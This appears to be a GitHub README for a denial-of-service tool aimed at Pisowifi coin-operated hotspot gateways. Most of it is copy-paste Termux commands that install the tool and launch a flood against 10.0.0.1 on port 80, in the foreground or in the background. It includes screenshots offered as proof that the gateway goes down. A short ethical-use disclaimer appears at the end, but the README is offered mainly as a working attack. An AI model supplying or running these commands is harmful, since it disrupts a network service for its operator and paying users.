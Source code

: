 # Pisowifi DDOS
10.0.0.1 = 502 Bad Gateway Error

<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/proof.png">
</div>

# Requirements
- Termux

# Manual Install
```
pkg update && pkg upgrade -y
```
```
pkg install git python python-pip -y
```
```
git clone https://github.com/xiv3r/pisowifi-ddos.git
```
```
cd pisowifi-ddos
```
```
python ddos.py
```

# Auto Install
```
pkg update && pkg upgrade -y && pkg install git python python-pip -y && git clone https://github.com/xiv3r/pisowifi-ddos.git && cd pisowifi-ddos && python ddos.py
```
# Run
```
cd ~/pisowifi-ddos
```
```
python ddos.py -s 10.0.0.1 -p 80 -t 135
```
> Background mode

```
python ddos.py -s 10.0.0.1 -p 80 -t 135 2>&1 &
```

<div align="center">
<img src="https://github.com/xiv3r/pisowifi-ddos/blob/main/image/ddos.png">
</div>

### Disclaimer
`"This tool is intended solely for ethical cybersecurity purposes, such as penetration testing, vulnerability assessments, and authorized research. Unauthorized use to disrupt networks, services, or systems is illegal and violates cybersecurity laws. Misuse may result in severe legal penalties, including fines and imprisonment. Always obtain explicit permission before testing any system. By using this tool, you agree to comply with all applicable laws and assume full responsibility for your actions."`

